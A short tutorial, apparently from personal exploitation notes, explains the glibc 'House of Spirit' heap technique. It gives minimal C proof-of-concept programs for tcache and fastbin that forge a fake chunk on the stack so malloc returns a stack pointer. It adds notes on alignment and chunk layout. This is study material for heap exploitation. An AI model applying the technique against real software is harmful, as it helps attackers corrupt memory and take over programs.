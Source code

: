 # House of Spirit
> LongChampion, 13/03/2020

## with tcache (**GLIBC** >= 2.26)
This attack is quite simple, look at the code:
```
#include <stdlib.h>

int main()
{
    long long Fake[4];
    void *ptr = malloc(0x10);
    ptr = &Fake[2];
    Fake[1] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
## with fastbin (**GLIBC** <= 2.25)
To *hijack* fastbin, you need to create 2 chunks to bypass security check: `size` of chunk to be free must be equal to `size` of next chunk in memory.  
```
#include <stdlib.h>

int main()
{
    long long Fake[6];
    void *ptr = malloc(0x10);
    ptr = &Fake[2];
    Fake[1] = 0x20;
    Fake[5] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
### Note:
- **THE MOST IMPORTANT**: `Fake` (and all other chunks) must be aligned by `MALLOC_ALIGNMENT` (usually 16 bytes in x64 system, 8 bytes in x32 system). Your life may be destroy if you forget this. To make sure that `Fake` is aligned, add `__attribute__` to it:
    > `long long Fake[6] __attribute__((aligned(16))); // change 16 to 8 when you compile in x86 system`

- The `PREV_INUSE` flag is ignored, but `IS_MMAPPED` flag and `NON_MAIN_ARENA` flag can cause problem!
- The memory layout is (use for both case):
    > | Fake | chunk           |
    > |------|-----------------|
    > | 0    | first.pre_size  |
    > | 1    | first.size      |
    > | 2    | first.fd        |
    > | 3    | first.bk        |
    > | 4    | second.pre_size |
    > | 5    | second.size     |
- In both case, `ptr` will point to `Fake[2]` at the end (not point to `Fake`)
- `Fake` must have at least 4 elements (6 elements for fastbin) because when it is freed, the `fd` and `bk` pointer will be modified, this change can smash your stack frame!
- After `Fake` is free, make sure that you call `malloc` with suitable request size so that it will return `Fake[2]` to you.
- In the later case, make sure that distance between two chunks is equal to `size` (they are not adjacent on memory in general case)
